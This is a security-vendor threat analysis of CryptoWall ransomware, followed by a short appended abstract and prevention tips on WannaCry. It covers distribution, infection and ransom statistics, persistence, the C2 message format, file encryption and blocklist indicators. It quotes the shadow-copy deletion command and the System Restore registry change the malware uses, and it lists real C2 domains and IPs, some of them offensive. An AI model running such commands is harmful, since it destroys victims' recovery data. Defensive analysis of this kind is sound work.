CryptoWall has spread through various infection vectors since its inception, including browser exploit kits, drive-by downloads, and malicious email attachments. Since late March 2014, it has been primarily distributed through malicious attachments and download links sent through the Cutwail spam botnet. These Cutwail spam email attachments typically distribute the Upatre downloader, which retrieves CryptoWall samples hosted on compromised websites. Upatre was the primary method of distributing the Gameover Zeus banking trojan until Operation Tovar disrupted that ecosystem in May 2014. Upatre has also been used to distribute the Dyre banking trojan. In June 2014, the malicious emails began including links to legitimate cloud hosting providers such as Dropbox, Cubby, and MediaFire. The links point to ZIP archives that contain a CryptoWall executable.

On June 5, 2014, an aggressive spam campaign launched by Cutwail led to the largest single-day infection rates observed by CTU researchers as of this publication. These emails used a common "missed fax" lure that included links to Dropbox. This spam campaign paused over the weekend but resumed in earnest on June 9-10 with emails purporting to be from financial institutions or government agencies, as shown in Figure 2.


On both May 25 and May 28, just prior to this spam campaign, security researchers observed the Angler exploit kit distributing CryptoWall. The RIG exploit kit was also observed distributing this malware between May 19 and May 30. In early May, the Infinity exploit kit (also known as Goon and Redkit V2) was infecting systems with CryptoWall.

Since CryptoWall's emergence in late February 2014, CTU researchers have observed steady but low-level infection rates on Dell SecureWorks client networks. The threat actors behind CryptoWall increased the volume of its distribution in mid-May, resulting in a marked growth in infections (see Figure 3).


On February 26, 2014, CTU researchers registered a domain used by the CryptoWall malware as a backup command and control (C2) server. Through June 13, this sinkhole received connections from 968 unique hosts that appeared to be infected with early CryptoWall variants (see Figure 4).


The geographic distribution of infected systems indicated a bias towards systems in Asian and Middle Eastern countries, as shown in Table 1.

| Country       | Infected systems | Percentage of total |
| ------------- | ---------------- | ------------------- |
| India         | 266              | 27.5%               |
| United States | 141              | 14.6%               |
| Iran          | 112              | 11.6%               |
| Singapore     | 93               | 9.6%                |
| Poland        | 55               | 5.7%                |
| Pakistan      | 49               | 5.1%                |
| Turkey        | 42               | 4.3%                |
| Brazil        | 40               | 4.1%                |
| Sri Lanka     | 27               | 2.8%                |
| Indonesia     | 23               | 2.4%                |

*Table 1. Geographic breakdown of infection counts.*

Every new infection is assigned a unique alphanumeric code (Base 36), which is allocated sequentially by the CryptoWall backend (e.g., aaaa, aaab, aaac). Between mid-March and August 24, 2014, nearly 625,000 systems were infected with CryptoWall. In that same timeframe, CryptoWall encrypted more than 5.25 billion files. CTU researchers queried the ransom payment server using the codes assigned to each of these systems and collected the IP address, approximate time of infection, and payment status for each infection.

Figure 5 shows the geographic distribution of these compromised systems. Every nation in the world had at least one victim. Most of the infections are in the United States due to CryptoWall's frequent distribution through Cutwail spam targeting English-speaking users.


Table 2 lists the top ten affected countries.

| Country        | Infected systems | Percentage of total |
| -------------- | ---------------- | ------------------- |
| United States  | 253,521          | 40.6%               |
| Vietnam        | 66,590           | 10.7%               |
| United Kingdom | 40,258           | 6.4%                |
| Canada         | 32,579           | 5.2%                |
| India          | 22,582           | 3.6%                |
| Australia      | 19,562           | 3.1%                |
| Thailand       | 13,718           | 2.2%                |
| France         | 13,005           | 2.1%                |
| Germany        | 12,826           | 2.1%                |
| Turkey         | 9,488            | 1.5%                |

*Table 2. Geographic breakdown of infection counts.*

Each CryptoWall sample is marked with a "campaign ID" that is transmitted to the C2 server during communication. The threat actors use this ID to track samples by infection vector. For example, the "cw400" campaign was used for samples distributed by Cutwail (either through Upatre, direct attachment, or externally linked). Table 3 lists the campaigns identified by CTU researchers. The date ranges are based on the best available evidence. These campaign identifiers could also be used to implement an affiliate program. However, as of this publication, CryptoWall is thought to be controlled and used by a single threat group.

| Campaign ID | Period                                         | Infection vector                |
| ----------- | ---------------------------------------------- | ------------------------------- |
| analteen    | November 5-11, 2013                            | Drive-by download               |
| orgasm      | November 8, 2013                               | Unknown                         |
| obamagay1   | December 30, 2013 - January 1, 2014            | Unknown                         |
| wolfgang    | February 9-26, 2014                            | Unknown                         |
| porno2      | February 26, 2014                              | Unknown                         |
| crypt1      | February 26, 2014                              | Unknown                         |
| crypt11     | March 8-10, 2014                               | Unknown                         |
| def001      | March 17 - April 17, 2014                      | Cutwail/Upatre                  |
| def002      | March 21, 2014                                 | Unknown                         |
| def003      | April 2-7, 2014                                | Cutwail/Upatre                  |
| def004      | April 4-25, 2014                               | Unknown                         |
| def006      | April 10, 2014                                 | Unknown                         |
| def007      | April 12-17, 2014                              | Unknown                         |
| def201      | April 28, 2014                                 | Unknown                         |
| def009      | April 29 - May 9, 2014                         | Unknown                         |
| cw800       | May 3-20, 2014                                 | Infinity/Goon exploit kit       |
| cw100       | May 9, 2014 - In use as of this publication    | Magnitude exploit kit           |
| cw1500      | May 14 - June 5, 2014                          | Angler exploit kit              |
| cw200       | May 21, 2014                                   | RIG exploit kit                 |
| cw400       | May 21, 2014 - In use as of this publication   | Cutwail                         |
| cw900       | May 21-23, 2014                                | Unknown                         |
| cw700       | May 29-30, 2014                                | Unknown                         |
| cw1600      | June 3-20, 2014                                | Unknown                         |
| cw1900      | May 26 - June 6, 2014                          | Nuclear exploit kit/Pony Loader |
| cw2200      | June 10 - July 4, 2014                         | Unknown                         |
| cw2300      | June 11, 2014                                  | Unknown                         |
| cw2400      | Unknown                                        | Unknown                         |
| cw2500      | June 19, 2014 - In use as of this publication  | Gozi/Neverquest                 |
| cw404       | June 26, 2014 - In use as of this publication  | Cutwail                         |
| cw2700      | July 8-15, 2014                                | Unknown                         |
| tor003      | July 21, 2014                                  | Unknown                         |
| tor2800     | July 25, 2014                                  | Cutwail                         |
| cw2800      | August 4, 2014 - In use as of this publication | Unknown                         |

*Table 3. CryptoWall campaign identifiers, time ranges, and infection vectors.*

<br/>

**Execution and persistence**

When CryptoWall is first executed, it unpacks itself in memory and injects malicious code into new processes that it creates. It creates an "explorer.exe" process using the legitimate system binary in a suspended state and maps and executes malicious code into the process's address space. This malicious instance of explorer.exe then executes the following process:

- vssadmin.exe Delete Shadows /All /Quiet

This process causes the Windows Volume Shadow Copy Service (VSS) to delete all shadow copies of the file system. CryptoWall also disables Windows' System Restore feature by modifying the registry key:

- HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRestore => DisableSR

Both techniques prevent infected systems from recovering encrypted files.

Finally, the malicious code creates a "svchost.exe -k netsvcs" process, again using the legitimate system binary. The malicious svchost.exe process is anomalous, as it runs with the privileges of the victim system's user and not as a system process (see Figure 6). Additionally, the process runs independently and does not appear as a child process of services.exe.


To establish persistence across system reboots, a copy of the malware is placed in %AppData%, %UserProfile%\Start Menu\Programs\Startup, and a directory at the root of the system drive. Then the malware adds multiple "autostart" registry keys (see Figure 7). Some CryptoWall variants also install a "RunOnce" key prefixed with an asterisk, which causes the executable to run even in Safe Mode. Each sample is configured to use a certain six hexadecimal character filename (e.g., 3e0d6a) that the malware uses in other variations (e.g., 3e0d6a9).


<br/>

**Network communication**

CryptoWall uses an unremarkable C2 system that relies on several static domains hard-coded into each binary. Unlike other prevalent malware families, CryptoWall does not use advanced techniques such as domain generation algorithms (DGA) or fast-flux DNS systems. Although CryptoWall uses the WinINet application programming interface (API) to perform network functions, the malware ignores the system's configured proxy server and instead communicates directly with its C2 servers.

Once CryptoWall is active on a compromised system, it sends an initial phone-home message to the C2 server over HTTP on TCP port 80 (see Figure 8).


These servers use the Privoxy non-caching web proxy and likely act as first-tier servers that proxy traffic from victims to backend servers that manage encryption keys. In late July 2014, several distributed samples used C2 servers hosted on the Tor network, which may indicate the operators intend to eventually stop using traditional, directly accessible servers.

The requested object is the RC4 key used to encrypt the information contained in the POST parameter. The unencrypted request has the following format:

- {7|cw1900|3E0D6A957E4BF936C016D17B11951E54|4}

The "cw1900" string represents the CryptoWall binary's campaign. The string of 32 hexadecimal characters is a unique infection identifier derived from the compromised system's computer name, disk volume serial number, processor information, and OS version (see Figure 9). This string is also used as a mutex that prevents multiple copies from infecting the same system.


An active C2 server responds with data encrypted with the same RC4 key. Each request initiated by the compromised system uses a new RC4 key. After a compromised system successfully contacts an active C2 server, the system sends a second request that prompts the C2 server to send the following reply (shown unencrypted):

- ```
  {216|kpai7ycr7jxqkilp.onion|b0hd|US|-----BEGIN PUBLIC KEY-----
  MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAy5uLyGhW15QJZIFp8QK4
  /UNMpkwChp04WmzfwsnSu6CjzKZy0okrjt9iSP6PBPfwYM5CzhepUNNA2RqMPw9X
  V3Vu/yQx3wS1zaSHqqluQkO/iZFxN+5HYKhUYVbOKwl1K2cGD9ynDAcqhQzZCHeT
  0r4+Sy6K8SUiJRnoYG+ipxm7yHTexH+JcQKYWRsbVc/SMkiRI92NhkPM2R/pKRzJ
  n/j2l4p33y19EeCQUkfDRnRQTVbdonqjvus4UYrDlUTKw8G0nLDuKnAAqDaM9wnD
  G0mStK0FqGLXF8Bn6F39UVw9AFb9GpyAMjWAeZ0GGQTsI10amPjqMt2ocGHWQ8j6
  XQIDAQAB
  -----END PUBLIC KEY-----}
  ```

This reply includes the Tor payment site, unique payment identifier, country code of the compromised system, and the public key component of the RSA-2048 key pair to encrypt system files. The unique payment identifier allows the victim to navigate to the decryption page specific to their infection. This identifier differs from the unique infection identifier shown in Figure 9, which the threat actors use to identify victims and associate them with the stored RSA private key.

The malware regularly beacons to the C2 server during the encryption process. Once encryption is complete, the malware notifies the C2 server how many files were encrypted:

- {7|cw1900|3E0D6A957E4BF936C016D17B11951E54|3|all=2284}

The malware does not exfiltrate user credentials, files, or metadata about files. Early CryptoWall variants did transmit a screenshot of the infected system back to the C2 server, but this functionality has not been present in variants distributed since mid-March 2014.

<br/>

**File encryption**

File encryption begins after CryptoWall successfully retrieves the RSA public key from an active C2 server. Therefore, using network-based controls to block this communication can prevent compromised systems from becoming encrypted. Unlike CryptoLocker's use of a symmetric cipher, such as AES, to encrypt bulk data, CryptoWall uses the RSA public key to directly encrypt files. Because the RSA algorithm is far more computationally intensive than symmetric ciphers, compromised systems experience significant CPU load after CryptoWall compromises as files are encrypted.

The first explicit indication of an active infection presented to a victim is the web page that CryptoWall opens after encrypting the files (see Figure 10).


CryptoWall variants deployed before April 1, 2014 contained a weakness in the cryptographic implementation that allowed recovery of the key used to encrypt files. This flaw appears to have been corrected in later versions of the malware. CTU researchers have not performed a rigorous assessment of CryptoWall's cryptographic implementation, but they have not discovered any obvious flaws that allow decryption without payment.

CryptoWall recursively navigates the file system, selectively encrypting certain file types (e.g., text files, documents, source code). Executables and DLLs are left unmodified to prevent the compromised system from becoming corrupted and unusable. Table 4 lists the targeted file extensions.

| *.c    | *.h    | *.m    | *.ai   | *.cs   | *.db   | *.db   | *.nd   |
| ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ |
| *.pl   | *.ps   | *.py   | *.rm   | *.3dm  | *.3ds  | *3fr   | *.3g2  |
| *.3gp  | *.ach  | *.arw  | *.asf  | *.asx  | *.avi  | *.bak  | *.bay  |
| *.cdr  | *.cer  | *.cpp  | *.cr2  | *.crt  | *.crw  | *.dbf  | *.dcr  |
| *.dds  | *.der  | *.des  | *.dng  | *.doc  | *.dtd  | *.dwg  | *.dxf  |
| *.dxg  | *.eml  | *.eps  | *.erf  | *.fla  | *.flv  | *.hpp  | *.iif  |
| *.jpe  | *.jpg  | *.kdc  | *.key  | *.lua  | *.m4v  | *.max  | *.mdb  |
| *.mdf  | *.mef  | *.mov  | *.mp3  | *.mp4  | *.mpg  | *.mrw  | *.msg  |
| *.nef  | *.nk2  | *.nrw  | *.oab  | *.obj  | *.odb  | *.odc  | *.odm  |
| *.odp  | *.ods  | *.odt  | *.orf  | *.ost  | *.p12  | *.p7b  | *.p7c  |
| *.pab  | *.pas  | *.pct  | *.pdb  | *.pdd  | *.pdf  | *.pef  | *.pem  |
| *.pfx  | *.pps  | *.ppt  | *.prf  | *.psd  | *.pst  | *.ptx  | *.qba  |
| *.qbb  | *.qbm  | *.qbr  | *.qbw  | *.qbx  | *.qby  | *.r3d  | *.raf  |
| *.raw  | *.rtf  | *.rw2  | *.rwl  | *.sql  | *.sr2  | *.srf  | *.srt  |
| *.srw  | *.svg  | *.swf  | *.tex  | *.tga  | *.thm  | *.tlg  | *.txt  |
| *.vob  | *.wav  | *.wb2  | *.wmv  | *.wpd  | *.wps  | *.x3f  | *.xlk  |
| *.xlr  | *.xls  | *.yuv  | *.back | *.docm | *.docx | *.flac | *.indd |
| *.java | *.jpeg | *.pptm | *.pptx | *.xlsb | *.xlsm | *.xlsx |        |

*Table 4. File extensions targeted for encryption.*

Files on fixed (e.g., hard disks), removable (e.g., USB memory), and network drives (when mapped to a drive letter) are targeted for encryption. Furthermore, cloud storage services, such as Dropbox or Google Drive, that are mapped to a targeted file system will also be encrypted. Typically, encrypted files are five to ten percent larger than their original versions. CryptoWall marks encrypted files by prepending a custom header (see Figure 11).


CryptoWall leaves three "DECRYPT_INSTRUCTIONS" files with .url, .txt, and .html extensions in each directory it traverses. These files contain information about the infection and instructions on how to pay the ransom.

The CTU research team discourages victims from paying ransoms because it facilitates the growth of cybercrime enterprises. Victims who choose to pay the ransom submit payment and wait an arbitrary amount of time for the threat actors to confirm the payment. Once the payment has been confirmed, the victim's page on the payment server reflects the changes shown in Figure 12.


A "decrypt.zip" archive contains a small (30 KB) decryption program ("decrypt.exe") and the victim's secret RSA key ("secret.key") in Microsoft Cryptographic Provider key BLOB format. The decryption program is a UPX-packed executable that is uniquely generated for each victim after payment.

<br/>

**Payment**

Like CryptoLocker, earlier CryptoWall variants included numerous payment options, including pre-paid cards such as MoneyPak, Paysafecard, cashU, and Ukash in addition to the Bitcoin cryptocurrency. Unlike CryptoLocker, the CryptoWall threat actors originally accepted Litecoin (see Figure 13); however, the only observed Litecoin address (LTv4m4y7NKHCXdw31dSEpTJmP6kXTinWDy) never received any payments.


The ransom has frequently fluctuated at the whim of the botnet operators, and no exact pattern has been established that determines which victims receive a particular ransom value. Ransoms ranging from $200 to $2,000 have been demanded at various times by CryptoWall's operators. The larger ransoms are typically reserved for victims who do not pay within the allotted time (usually 4 to 7 days). In one case, a victim paid $10,000 for the release of their files.

The web page that instructs victims how to pay the ransom displays a static Bitcoin address that is rotated at least once per day. Table 5 lists known Bitcoin addresses, the number of ransoms collected, the value in bitcoins of those received ransoms, and the value in U.S. dollars as of August 24, 2014. CTU researchers directly observed all the addresses in Table 5 in use on the CryptoWall payment servers, except the ones indicated in bold. The addresses in bold were discovered retrospectively by analyzing the transaction history of the Bitcoin network for addresses likely receiving ransom payments.

| Address                                | Collected (BTC) | Collected (USD) |
| -------------------------------------- | --------------- | --------------- |
| 1EmLLj8peW292zR2VvumYPPa9wLcK4CPK1     | 62.2634         | $32,377         |
| 16N3jvnF7UhRh74TMmtwxpLX6zPQKPbEbh     | 21.2352         | $11.042         |
| 19yqWit95eFGmUTYDLr3memcDoJiYgUppc     | 56.4450         | $29,351         |
| 1ApF4XayPo7Mtpe326o3xMnSgrkZo7TCWD     | 71.9387         | $37,408         |
| 19DyWHtgLgDKgEeoKjfpCJJ9WU8SQ3gr27     | 29.4246         | $15,301         |
| 1LGnuv6KX9SXB8eM72dnBAcECeaC8Z2zje     | 1.6000          | $832            |
| 1K81FeS3TH7DkqrMECtVDwXruRiXPXa6dZ     | 14.9798         | $7,790          |
| 1PnPJfx4ct8YHRnTnx1VrSnrZeQik86BXa     | 40.0517         | $20,827         |
| 14bD9RgtJeKxdJMm5SRbmzFcsk8azTheR9     | 9.4715          | $4,925          |
| 1GkBo7k4b1k7ehPYYqiY9jhGXPNCKtyEGi     | 6.0605          | $3,151          |
| 1L7SLmazbbcy614zsDSLwz4bxz1nnJvDeV     | 48.9531         | $25,456         |
| 1HYDwtwtotSedCDCHDcgbRks2a7yPcicwd     | 67.4567         | $35,077         |
| 1CgD9eHj75MP1thzhqU1nEb5jyjkYfMMbK     | 17.9618         | $9.340          |
| 1CeA899xpo3Fe6DQwZwEkd6vQfRHoLuCJD     | 82.0797         | $42,681         |
| 1M4pN4rH4LfXuTaJCL5tpnXJkbVRC35saU     | 9.6855          | $5,036          |
| 1FUEYosFFP9X93yrPzeW5YQpbtpg8eq5Gd     | 2.4603          | $1,279          |
| 18e6Wtkvpf4L9RHwzbgvR9QTUVm1yBybwu     | 15.9021         | $8,269          |
| 17JmFhoJhFKinrKm6XK3LgSmuzfzWyE6gi     | 8.8915          | $4,624          |
| 1MrnUHFADbj5S9ERJ9bGXtQvhx81TFztMN     | 17.2850         | $8,988          |
| 1LPAUi1LWzCsRLkGFWFdN5sENs1LufBfNp     | 33.4070         | $17,372         |
| 1JTEjiizLihT6GbvoW52Abmg6rV1KyD3fw     | 40.8381         | $21,236         |
| **1ASm3RVYjjpLmMTECCkoy8yLmUN9rmE9aS** | 12.8446         | $6,679          |
| **1Pa7ZkA9JHzwp8FazU4YBVSiYFPP3majgA** | 18.5848         | $9,664          |
| **1FAB6uvKD9q5MnGm3ta1ERvmeVpYgyNQwj** | 20.0374         | $10,419         |
| 1M8oK3D2G8ipTy7sCxiatrHC35CpAgmrrw     | 76.7055         | $39,887         |
| 1DDPoA3rnXtHtp71v3KAtd53pdRTmskxrK     | 9.3686          | $4,872          |
| 16yd1Wj2NZa2uLZ6W4UDCDJ2Ttw92uFaT7     | 28.1476         | $14,637         |
| 1BhLzCZGY6dwQYgX4B6NR5sjDebBPNapvv     | 2.7601          | $1,435          |
| 1LV8hdp4rTfRESUT3FoZhgxnSW4xthqpS3     | 2.1511          | $1,119          |
| 1AkJptnuoiQAD3GmHMFHBSMxZ9H2GKJTkB     | 32.4437         | $16,871         |
| 14ytdF3C9VRbttMfh9J56yR9ZWqfmFbBWN     | 11.2697         | $5,860          |
| 13BeAzA4mhwDYJEwhqNd2LsUnuhuVqKvw8     | 17.0646         | $8,874          |
| 1PgsYJKnnKk1mxLGY9hHFgtuBffGx2E9HR     | 10.0326         | $5,217          |
| 13Kqgurx7eQg3G29NwV7ouJ8UHJRSUwwAe     | 39.5325         | $20,557         |

*Table 5. Known CryptoWall Bitcoin addresses and received transfer totals.*

The total inflow to the addresses in Table 5 is approximately 939 BTC. At the BTC exchange rate as of August 24, 2014 (1 BTC = $520), threat actors have received more than $488,000 in ransoms. These payments represent a subset of the total CryptoWall payments thought to be received. Some payments made to these addresses did not fit the pattern of CryptoWall ransom payments and may be income from other, unrelated criminal activity.

Data collected directly from the ransom payment server reveals the exact number of paying victims as well as the amount they paid. Of nearly 625,000 infections, 1,683 victims (0.27%) paid the ransom, for a total take of $1,101,900 over the course of six months. The distribution of ransom payments is shown in Table 6.

| Ransom amount | Number paid | Percentage |
| ------------- | ----------- | ---------- |
| $200          | 6           | 0.4%       |
| $500          | 1,087       | 64.6%      |
| $600          | 3           | 0.2%       |
| $750          | 122         | 7.2%       |
| $1000         | 399         | 23.7%      |
| $1500         | 27          | 1.6%       |
| $1750         | 1           | <0.1%      |
| $2000         | 6           | 0.4%       |
| $10000        | 1           | <0.1%      |

*Table 6. Distribution of ransom payments made by victims.*

Based on post-mortem data [collected](http://blog.fox-it.com/2014/08/06/cryptolocker-ransomware-intelligence-report/) by researchers, CryptoWall has been less effective at producing income than CryptoLocker. Both malware families accepted payments via Bitcoin, with 0.27% of CryptoWall victims and 0.21% of CryptoLocker victims paying ransoms in bitcoins. CryptoLocker also accepted MoneyPak, and an additional 1.1% of victims paid ransoms using pre-paid MoneyPak cards. As of this publication, CryptoWall has only collected 37% of the total ransoms collected by CryptoLocker despite infecting nearly 100,000 more victims. CryptoWall's higher average ransom amounts and the technical barriers typical consumers encounter when attempting to obtain bitcoins has likely contributed to this malware family's more modest success. Additionally, it is likely the CryptoWall operators do not have a sophisticated "cash out" and laundering operation like the Gameover Zeus crew and cannot process pre-paid cards in such high volumes.

<br/>

**Conclusion**

In mid-March 2014, CryptoWall emerged as the leading file-encrypting ransomware threat. The threat actors behind this malware have several years of successful cybercrime experience and have demonstrated a diversity of distribution methods. As a result, CTU researchers expect this threat will continue to grow.

The following actions may mitigate exposure to or damage from CryptoWall:

- Block executable files and compressed archives containing executable files before they reach a user's inbox.
- Keep operating systems, browsers, and browser plugins, such as Java and Silverlight, fully updated to prevent compromises resulting from exposure to exploit kits.
- Aggressively block known indicators from communicating with your network to temporarily neuter the malware until it can be discovered and removed.
- Reevaluate permissions on shared network drives to prevent unprivileged users from modifying files.
- Regularly back up data with so-called "cold" offline backup media. Backups to locally connected, network-attached, or cloud-based storage are not sufficient because CryptoWall encrypts these files along with those found on the system drive.

Software Restriction Policies (SRPs) do not effectively mitigate CryptoWall due to the way the malware infects systems.

<br/>

**Threat indicators**

To mitigate exposure to the CryptoWall malware, CTU researchers recommend that clients use available controls to restrict access using the indicators in Table 7. The domains and IP addresses listed in the indicator table may contain malicious content, so consider the risks before opening them in a browser.

| Indicator                                                    | Type        | Context                    |
| ------------------------------------------------------------ | ----------- | -------------------------- |
| youtubeallin.com                                             | Domain name | C2 server                  |
| serbiabboy.com                                               | Domain name | C2 server                  |
| hairyhustler.com                                             | Domain name | C2 server                  |
| yoyosasa.com                                                 | Domain name | C2 server                  |
| uprnsme.com                                                  | Domain name | C2 server                  |
| dealwithhell.com                                             | Domain name | C2 server                  |
| wawamediana.com                                              | Domain name | C2 server                  |
| qoweiuwea.com                                                | Domain name | C2 server                  |
| dominikanabestplace.com                                      | Domain name | C2 server                  |
| nofbiatdominicana.com                                        | Domain name | C2 server                  |
| dominicanajoker.com                                          | Domain name | C2 server                  |
| likeyoudominicana.com                                        | Domain name | C2 server                  |
| khalisimilisi.com                                            | Domain name | C2 server                  |
| posramosra.com                                               | Domain name | C2 server                  |
| maskaradshowdominicana.com                                   | Domain name | C2 server                  |
| newsbrontima.com                                             | Domain name | C2 server                  |
| yaroshwelcome.com                                            | Domain name | C2 server                  |
| granatebit.com                                               | Domain name | C2 server                  |
| rearbeab.com                                                 | Domain name | C2 server                  |
| droterdrotit.com                                             | Domain name | C2 server                  |
| kukisasda8121.com                                            | Domain name | C2 server                  |
| tyuweirwsdf18741.com                                         | Domain name | C2 server                  |
| machetesraka.com                                             | Domain name | C2 server                  |
| markizasamvel.com                                            | Domain name | C2 server                  |
| wachapikchaid91.com                                          | Domain name | C2 server                  |
| hilaryclintonbest81.com                                      | Domain name | C2 server                  |
| niggaattack23.com                                            | Domain name | C2 server                  |
| norevengenosuck.com                                          | Domain name | C2 server                  |
| stopobamastopusa.com                                         | Domain name | C2 server                  |
| jiromepic.com                                                | Domain name | C2 server                  |
| clocksoffers.com                                             | Domain name | C2 server                  |
| gretableta.com                                               | Domain name | C2 server                  |
| kaikialexus.com                                              | Domain name | C2 server                  |
| babyslutsnil.com                                             | Domain name | C2 server                  |
| wartbartmart.com                                             | Domain name | C2 server                  |
| la4eversuck.com                                              | Domain name | C2 server                  |
| obsesickshit.com                                             | Domain name | C2 server                  |
| mamapapafam.com                                              | Domain name | C2 server                  |
| usawithgitler.com                                            | Domain name | C2 server                  |
| kickasssisters.com                                           | Domain name | C2 server                  |
| bdsmwithyou.com                                              | Domain name | C2 server                  |
| iampeterbaby.com                                             | Domain name | C2 server                  |
| teromasla.com                                                | Domain name | C2 server                  |
| torichipinis.com                                             | Domain name | C2 server                  |
| gitlerluvua.com                                              | Domain name | C2 server                  |
| covermontislol.com                                           | Domain name | C2 server                  |
| usaalwayswar.com                                             | Domain name | C2 server                  |
| bolizarsospos.com                                            | Domain name | C2 server                  |
| titaniumpaladium.com                                         | Domain name | C2 server                  |
| adolfforua.com                                               | Domain name | C2 server                  |
| vivatsaultppc.com                                            | Domain name | C2 server                  |
| milimalipali.com                                             | Domain name | C2 server                  |
| poroshenkogitler.com                                         | Domain name | C2 server                  |
| waltabaldasd.com                                             | Domain name | C2 server                  |
| dancewithmeseniorita.com                                     | Domain name | C2 server                  |
| indeedlinkme.com                                             | Domain name | C2 server                  |
| crunkthatme.com                                              | Domain name | C2 server                  |
| hungarymethis.com                                            | Domain name | C2 server                  |
| terrymerry.com                                               | Domain name | C2 server                  |
| lvoobptv6w5zanxu.onion                                       | Tor address | C2 server                  |
| hyzcrtwh6ispjwj4.onion                                       | Tor address | C2 server                  |
| 2yd2bu2k5ilgxv6u.onion                                       | Tor address | C2 server                  |
| kpai7ycr7jxqkilp.onion                                       | Tor address | Payment server             |
| 78.110.175.80                                                | IP address  | C2 server (United Kingdom) |
| 192.64.115.86                                                | IP address  | C2 server (United States)  |
| 5.101.146.182                                                | IP address  | C2 server (United Kingdom) |
| 199.188.203.16                                               | IP address  | C2 server (United States)  |
| 46.19.143.234                                                | IP address  | C2 server (Switzerland)    |
| 162.213.250.163                                              | IP address  | C2 server (United States)  |
| 192.64.115.91                                                | IP address  | C2 server (United States)  |
| 141.255.167.3                                                | IP address  | C2 server (Switzerland)    |
| 199.188.206.202                                              | IP address  | C2 server (United States)  |
| 185.12.44.5                                                  | IP address  | C2 server (Switzerland)    |
| 194.58.101.3                                                 | IP address  | C2 server (Russia)         |
| 192.31.186.3                                                 | IP address  | C2 server (United States)  |
| 31.31.204.59                                                 | IP address  | C2 server (Russia)         |
| 194.58.101.96                                                | IP address  | C2 server (Russia)         |
| 194.58.101.112                                               | IP address  | C2 server (Russia)         |
| 194.58.101.111                                               | IP address  | C2 server (Russia)         |
| 151.248.124.30                                               | IP address  | C2 server (Russia)         |
| 199.127.225.232                                              | IP address  | C2 server (United States)  |
| 3769639c17f0cd5045964b0839c9f009                             | MD5 hash    | Malware sample             |
| 03467f231a3fce6795545ae99a6dad161effa3bf681031693815eabf1648ee66 | SHA256 hash | Malware sample             |
| 85f830c85cc881358dfb631ef1f54a1a                             | MD5 hash    | Malware sample             |
| 7ed58ef4fd3dc4efaea9e595614553445afb055c0c675b692f12a5629251b040 | SHA256 hash | Malware sample             |
| b6c7943c056ace5911b95d36ff06e0e4                             | MD5 hash    | Malware sample             |
| d5a70ba5a194ab737fc52b9f4283ce9d32f090590aea34224f7ea9ec63557a4f | SHA256 hash | Malware sample             |
| b30a8168ff49145d7d3cdcfd47dbfaef                             | MD5 hash    | Malware sample             |
| 23eae15fbd3fff11ae9c0a74dec2f078a0213b6df54cf0011a0f5feae20437ec | SHA256 hash | Malware sample             |
| 167f16c8ae349cfb7d450cdf335dd9ca                             | MD5 hash    | Malware sample             |
| fa706ed93469c257ee1531ddcf57bbab8734f3d092712158faf4e27656ab832e | SHA256 hash | Malware sample             |
| a7e38522f8ff161968f72d8bcc956b4e                             | MD5 hash    | Malware sample             |
| fc5e57f70bdce3af0e8c43d124eacd1ead0be79bf369284f85a5f81c629f345e | SHA256 hash | Malware sample             |
| f612500ee9764e18ca78d2e78df5b017                             | MD5 hash    | Malware sample             |
| 7351e53bd863795104d609f2192e3436d3a07fb597f0bab35d175df88a34c3e0 | SHA256 hash | Malware sample             |
| e36bbd682b5dd435baec8ec268c9c825                             | MD5 hash    | Malware sample             |
| d14f1d1e07bd116ed0faf5896438177f36a05adacf5af4f32910e313e9c1fd93 | SHA256 hash | Malware sample             |
| 44150a32a84d3e1e07a042c3042a854c                             | MD5 hash    | Malware sample             |
| 114df2c77884312fc58d48bb6c4eb2ae23bbea2c37aad29c6fc0f544d7a16e36 | SHA256 hash | Malware sample             |
| 189d1d0c7ec162533b4aff4b8d0e95b1                             | MD5 hash    | Malware sample             |
| a7c2b304848f18c412776e5f461b42186b690eeed7b2955522f9fe716cfa3876 | SHA256 hash | Malware sample             |
| 3e9929a6751f184cb71d3c4adfc6fb78                             | MD5 hash    | Malware sample             |
| ab89a375ba9a0ec6ddc875ddde7647c4d2a140b07233580b143e0ca9aaf581f5 | SHA256 hash | Malware sample             |
| 2fde49072741d59fd941b494403b9b0f                             | MD5 hash    | Malware sample             |
| 63d4965ed89e6951bb68f5e76a28f7f9512bf3feb64fcedfc3b98bc72dbcd070 | SHA256 hash | Malware sample             |
| 934b014689771a7689c70cd179c8bd71                             | MD5 hash    | Malware sample             |
| a66b62735473fe257d35d003eb71aeb832e055d6f727e42ef1880c4d054118bb | SHA256 hash | Malware sample             |
| fc8db5b43ddf09bf0f03171e262495f6                             | MD5 hash    | Malware sample             |
| 47faaf4ab59c18ad9c72df1bec65873c350b5d72f361a723ae5f8b279a5b6b22 | SHA256 hash | Malware sample             |
| 00b536d9838b3e19d0ded1a6612a8b53                             | MD5 hash    | Malware sample             |
| a3ccdcf57d11314b8db4733eb67ab06f41a710c2e3404a26e5390465bcff7609 | SHA256 hash | Malware sample             |

*Table 7. Indicators for CryptoWall ransomware.*

-----

<br/>

### ○ (2017) A brief study of Wannacry Threat: Ransomware Attack

```
Recently Ransomware virus software spread like a cyclone winds.
A cyclone wind creates atmospheric instability; likewise ransomware creates computer data instability.
Every user is moving towards digitization.
User keep data secure in his or her computer.
But what if data is hijacked. A ransomware is one of the software virus that hijack users data.
A ransomware may lock the system in a way which is not for a knowledgeable person to reverse.
It not only targets home computersbut business also gets affected.
It encrypts data in such a way that normal person can no longer decrypt.
A person has to pay ransom to decrypt it.
But it does not generate that files will be released.
This paper gives a brief study of WannaCry ransomware,
its effect on computer world and its preventive measures to control ransomware on computer system.
```

Prevention is essential in keeping computer safe.

Its a recommendation for users to keep their operating system and software updated.

Make use of multilayers protection security solutions that is reliable.

Back up all important and valuable data offline regularly.

Ransomware can be sent through various sources like Emails, Advertisement, by creating websites and many more things that can share the ransomware to the computer users.

Ransomware restricts the use of the system in various ways after intruding the system.

It is mainly classified into the following three types: Scareware, Lock-Screen, and Encrypting.

WannaCryransomware virus attacked the whole world and no one knows how to decrypt these files.

Ransomware is a type of Malicious software designed to block access to computer system until some of money is paid.

Following are some of the preventive measure to avoid ransomware:

- Antivirus should always have a last update.
- Spam messages should not be opened or replied.
- Back up the data. To defeat, regularly updated backup
- Personalize the anti-spam settings the right way.
- Apply patches and keep the operating system, antivirus, browsers, Adobe Flash Player, Java, and other software up-to-date.
- Keep the Windows Firewall turned on and properly configured at all times.
